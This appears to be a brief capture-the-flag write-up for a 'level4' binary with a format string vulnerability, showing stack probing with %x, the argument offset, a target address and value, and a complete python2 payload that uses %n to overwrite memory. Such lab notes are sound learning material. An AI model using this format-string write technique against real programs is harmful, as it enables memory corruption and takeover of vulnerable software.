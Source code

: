 level4:b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

looks like a format string vuln

```shell
root@81bba73d829e:~# ./level4 
aaaa %x %x %x %x
aaaa f7f198f0 ffb77224 0 f7eea000
```
12th arguments is the text I entered

`0x8049810` must have the value `0x1025544` = `16930116`

payload: `python2 -c 'print "\x10\x98\x04\x08" + "%16930112c" + "%12$n"' > payload`